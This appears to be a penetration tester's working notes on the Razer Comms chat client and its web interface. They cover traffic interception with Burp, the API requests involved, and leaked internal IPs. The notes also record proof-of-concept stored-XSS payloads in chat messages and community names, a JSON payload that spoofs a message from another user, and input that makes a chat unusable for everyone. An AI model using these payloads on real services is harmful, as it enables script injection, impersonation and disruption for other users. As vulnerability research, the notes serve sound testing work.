


# Razer Comms Notes
First we install the application. Downloaded Razer Comms 5.12.59 from their website. This is the current version at the time of writing. After the installation did not launch it by default.

Took a look at task manager and saw this application running `C:\Program Files (x86)\Razer\Razer Services\GSS\GameScannerService.exe`. Hopefully we will play with this later. Seems like it's running as SYSTEM. Maybe we can get local priv escalation.

## Proxying
We can modify the Windows proxy settings. There are different ways to reach these settings, but the easiest for me is through Internet Explorer. `Tools (menu) > Internet Options (menu) > Connections (tab) > LAN Settings (button) > Use a proxy server for your LAN (checkbox)`. Enable the checkbox and now you can enter your own proxy settings. Enter Burp's proxy settings (or your own proxy tool) here. Burp's default proxy listener is `127.0.0.1:8080` or `localhost:8080`.

Run Netmon and start capturing traffic. Then run Burp and finally Razer Comms. Make sure that the filter is set to show everything in Burp.

In Razer Comms, click on `Create Account` and enter some random information. You can see that it tries to check the availability of `Comms ID` but there is nothing in Burp and Netmon is empty. Whatever you enter, the application will just say it is unavailable. It seems like the application is trying to send a request to check the availability but it fails and just returns not available. 



Let's run RawCap to capture local traffic _(LINK TO capturing local traffic blog post)_ and see what's happening here. Enter another CommsID and see that RawCap is capturing packets. Stop it and look at the resulting pcap file (in Wireshark).


First we see the TCP Handshake. Then we see a `CONNECT` request to `ec.razerzone.com:443` which means that the application has detected the Windows proxy settings and is proxy aware _(link to the section talking about proxy-aware clients in hipchat post)_. In short the application sends a `CONNECT` request before starting the TLS handshake to tell the proxy where to send the packets. Because a proxy is not able to see inside of TLS packets to determine the endpoint.

Then we see the normal TLS handshake, but Razer Comms closes the connection. Burp tries to send another packet after that but the application resets the connection. So there must be something wrong. Either the application is cert pinning (which is unlikely for a desktop application) or it checks the validity of certificate presented by Burp (most likely). In order to make the Burp's certificate valid on the system, we need to install the Burp root Certificate Authority in the Windows certificate store. Use these instructions _(link to the installing burp's cA cert tutorial)_.

Re-start the application and go back to `Create Account`. Now when we enter a CommdID, we can see a POST request in Burp.

    POST /check?rzrid=commsID HTTP/1.1
    Host: ec.razerzone.com
    Connection: close
    Content-Length: 0

The result is `0` if the ID is not available and `1` if not.

    HTTP/1.1 200 OK
    Cache-control: no-cache="set-cookie"
    Content-Type: text/html
    Date: Sun, 21 Feb 2016 21:41:05 GMT
    Server: nginx/1.7.8
    Set-Cookie: AWSELB=...
    X-Powered-By: PHP/5.3.29
    Content-Length: 1
    Connection: Close

    0


URL: https://ec.razerzone.com/check?rzrid=hello

Also note the PHP and nginx versions in response. PHP `5.3.29` and nginx `1.7.8`.

Note that you can modify this request to GET and it will still work. For example: [https://ec.razerzone.com/check?rzrid=Hello](https://ec.razerzone.com/check?rzrid=Hello).


The client does not allow CommsIDs shorter than five characters but CheckAvailability works on them. For example CheckAvailability for `rzr` returns `1` meaning it is available. Can we intercept the request and create a CommsID shorter than 5 characters?

Set Burp to Intercept (`Proxy > Intercept > Intercept is On/Off (button)`). Enter a valid CommsID and some random information. Click `Create` and see that Burp captures the request. Drop the request and send it to Repeater.

``` xml
POST /1/user/put HTTP/1.1
Content-Type: application/xml
Host: ecbeta.razerzone.com
Content-Length: 290
Expect: 100-continue
Connection: close

<COP>
  <User>
    <ID>randomemail@email.junk</ID>
    <Password1>randompassword</Password1>
    <Password2>randompassword</Password2>
    <Language></Language>
    <Nickname>randomcommsID</Nickname>
    <razer-id>randomcommsID</razer-id>
  </User>
  <ServiceCode>0020</ServiceCode>
</COP>
```

In Repeater we can modify the value of `razer-id` and see if we can create a 3 letter CommsID. And we can't do it:



That's an internal IP address (check?). Some are as follows:

* 10.101.152.28
* 10.180.204.132
* 10.147.221.244

The client does not need to know this address.

After registering a new user, you have to confirm your email. After that you can login normally.

No Username Enumeration on failed login attempts.

------------------

# More Random Notes

We got `RazerComms.pdb`, not that we need it anyways.

`xmppserver: comms-cxmpp.razersynapse.com:5222` doing netstat will show this.

XMPP is through websockets, look at the tab in Burp. Chat channel seems to be a normal XMPP server, it uses the token that we get in the login response as token.

uses `PUT` to send messages.

Before sending a message, message ID in the PUT is sent to the server via websockets using XMPP. The server accepts the message ID. Then the message ID in the PUT can be used, otherwise the PUT will get a 500 RESPONSE.

Sample message from client to server to post a message with ID `9cddf1b83bcabd8fbccf7f5487cb0c91cadb9ebe`.

Don't need XMPP to inject JS. Just modify the `PUT`. However, when you inject you won't see it yourself, you have to go out and come back to the channel.

``` xml
<iq to='pubsub.razerzone.com' type='set' id='14' xmlns='jabber:client'><pubsub xmlns='http://jabber.org/protocol/pubsub'><publish node='channel.messages.47e679df381c454928cce4799ab983c8f5afa136'><item><json xmlns='urn:xmpp:json:0'>{&quot;message&quot;:&quot;&lt;span&gt;test message 2&lt;/span&gt;&quot;,&quot;sender_name&quot;:&quot;randomcommsID&quot;,&quot;message_id&quot;:&quot;9cddf1b83bcabd8fbccf7f5487cb0c91cadb9ebe&quot;,&quot;admin&quot;:true,&quot;sender&quot;:&quot;rzr_...@razerzone.com&quot;}</json></item></publish></pubsub></iq>
```

Response from server:

``` xml
<message xmlns='jabber:client' from='rzr_...@razerzone.com/generic_chat_LkNii429' to='rzr_...@razerzone.com/generic_chat_LkNii429' type='headline'><event xmlns='http://jabber.org/protocol/pubsub#event'><items xmlns='http://jabber.org/protocol/pubsub#event' node='channel.messages.47e679df381c454928cce4799ab983c8f5afa136'><item xmlns='http://jabber.org/protocol/pubsub#event'><json xmlns='urn:xmpp:json:0'>{&quot;message&quot;:&quot;&lt;span&gt;test message 2&lt;/span&gt;&quot;,&quot;sender_name&quot;:&quot;randomcommsID&quot;,&quot;message_id&quot;:&quot;9cddf1b83bcabd8fbccf7f5487cb0c91cadb9ebe&quot;,&quot;admin&quot;:true,&quot;sender&quot;:&quot;rzr_...@razerzone.com&quot;}</json></item></items></event></message>
```

To remove message boxes, press `Enter`.

`al0rt(document.cookie)` does nothing.

**we need to find out what is this thing that the JS is running in**

Announcement doesn't work. It seems like announcements are treated as text.

-------

al0rt(document.cookie) is empty. Obviously


<script>al0rt(document.body.innerHTML)</script>


<script>al0rt(document.body.outerHTML)</script>


show some HTML.

We can see more in the channel via browser.

Now we need to find out where the JS is being executed.

`libcef.dll`

**Chromium Embedded Framework**

------------

## Community

`<script>al0rt(1)</script>` for community name.
Also pops up in Options page.

Change the community name to `<script>al0rt(1)</script>` in options page, and the al0rt box keeps popping up.

Description is output encoded.

### Community Chat Widget

But this is worse than it seems. You can login to chat channels via web. Each channel has an address that the application displays to be embedded in an iframe. The JS gets executed.

e.g.

``` html
<iframe
    frameborder=0
    scrolling="no"
    height="455px"
    width="915px"
    src="http://comms.razerzone.com/communities/chatpanel/?id=a21616c17b57afe73b99314753f8828a762795e3">
</iframe>
```

Chat window is also over HTTP. So login creds can be sniffed.

You go to the page, login and injected JS runs.

Web interface has the same problem. Everything is sent via `<span>chatmessage</span>` tags but you can just proxy it in Burp and add things normally.

This is how messages are displayed in the web chat window.

``` html
<div class="chat-item-view"><p>
    <span class="name my-message">
        randomcommsID
    </span>
    <span class="timestamp">21:35 21/4/2016</span><br>
    <span class="message">
    <script>al0rt(1)</script></span>
</p>
</div>
```

**`123</span></p></div>HELLO` will make the chat unusable for everyone**

Seems like I cannot break out of this.

In the web app, the authorization contains the token.

`window.open` works in the web app but not in the thick client.

Seems like a lot of stuff is done through JS.

`CommsInGameLib.dll > Resources > CommsInGameLib.Properties.Resources.commsApplet_js`.

For example the `Update Status` is not implemented yet.

Other stuff are in a similar place. `Whatever.html`.

e.g. main_window

**To launch game via the app (unfortunately no JS yet)**

RazerComms.Model.GamesMgr.LaunchGameAction(Game):

RazerComms.Model.CommunityMgr.OnCef_CopyToClipboard: This gets executed when we do copy to clipboard in community chat widget page.


**Chrome app.sendMessage**

https://developer.chrome.com/extensions/runtime#method-sendMessage

Maybe we can use this to change a game and then launch it, or launch it directly?

`<script>al0rt(1)</script>` works

Remember the payloads are sent in JSON format. Escape doublequotes with `\"`.

## Spoofing chat messages
It is not possible, anything after `<div` gets filtered out.

Messages in both the application and the web interface are displayed using the following HTML structure:

``` html
<div class="chat-item-view"><p>
    <span class="name my-message">
        username
    </span>
    <span class="timestamp">22:09 1/5/2016</span><br>
    <span class="message">
      <span>test2</span>
    </span>
</p>
</div>
```

This can be easily viewed by right clicking in any chat message and selecting `Inspect Element` (or a similar name based on the browser) from the context menu.

It is possible to inject HTML in the chat channel to spoof messages from another user. For example the following payload will inject a second message from `admin` to the channel. Note that payloads are sent in JSON format so double quotes are escaped with `\"`.


    {"message":"<span>this is the original message</span>endspan1</span><span>endspan2</p>endp<span></div>endmaindiv<div class=\"chat-item-view\"><p><span class=\"name my-message\">spoofedID</span><span class=\"timestamp\">22:40 1/5/2016</span><br><span class=\"message\"><span>this is the injected message</span></span></span>"}


    {"message":"<span>this is the original message</span>endspan1</span><span>endspan2</p>endp</div>endmaindiv<div class=\"chat-item-view\"><p><span class=\"name my-message\">spoofedID</span><span class=\"timestamp\">22:40 1/5/2016</span><br><span class=\"message\"><span>this is the injected message</span></span></p></div>"}

Anything after `</p>` gets filtered out :(

``` html
<div class="chat-item-view"><p>
    <span class="name my-message">
        randomCommsID2
    </span>
    <span class="timestamp">22:43 1/5/2016</span><br>
    <span class="message">
    <span>this is the original message</span>endspan1endspan2<p></p></span>
</p>
</div>
```

When trying to invite friends, name can contain injected JS.

## Annoucement

``` html
<div class="announcement">
    <span class="title">
        ANNOUNCEMENT (Posted by <span class="sender">user1</span>)
    </span>
    <div class="message"><p>announcement&lt;123"</p></div>
</div>
```

-----------

First two instances run before we go into the community and chat channel.

Note the `--no-sandbox`.

First instance

"C:\Users\x64\AppData\Local\razer\InGameEngine\cache\RazerComms\RzCefRenderProcess.exe" --type=gpu-process --channel="3664.0.1429291156\1104280072" --no-sandbox --lang=en-US --disable-image-transport-surface --supports-dual-gpus=false --gpu-driver-bug-workarounds=0,1,14,27 --gpu-vendor-id=0x80ee --gpu-device-id=0xbeef --gpu-driver-vendor="Oracle Corporation" --gpu-driver-version=5.0.10.0 --lang=en-US /prefetch:822062411


Second instance


"C:\Users\x64\AppData\Local\razer\InGameEngine\cache\RazerComms\RzCefRenderProcess.exe" --type=renderer --no-sandbox --lang=en-US --enable-threaded-compositing --enable-delegated-renderer --enable-deadline-scheduling --lang=en-US --disable-pepper-3d --disable-accelerated-compositing --disable-accelerated-video-decode --disable-webrtc-hw-encoding --enable-software-compositing --disable-gpu-compositing --disable-pepper-3d --channel="3664.1.1263675346\706427584" /prefetch:673131151


Third instance


"C:\Users\x64\AppData\Local\razer\InGameEngine\cache\RazerComms\RzCefRenderProcess.exe" --type=renderer --no-sandbox --lang=en-US --enable-threaded-compositing --enable-delegated-renderer --enable-deadline-scheduling --lang=en-US --disable-pepper-3d --disable-accelerated-compositing --disable-accelerated-video-decode --disable-webrtc-hw-encoding --enable-software-compositing --disable-gpu-compositing --disable-pepper-3d --channel="3664.2.1749249405\652813445" /prefetch:673131151


Fourth instance


"C:\Users\x64\AppData\Local\razer\InGameEngine\cache\RazerComms\RzCefRenderProcess.exe" --type=plugin --plugin-path="C:\Windows\SysWOW64\Macromed\Flash\NPSWF32_19_0_0_226.dll" --no-sandbox --lang=en-US --channel="3664.3.1167282187\15989054" --lang=en-US /prefetch:-390060480


----------

Same thing happens in game. If you join a community with al0rt, it will make the community chat unusable in game. The al0rt will not popup and you cannot view it, but you cannot write anything in chat either.

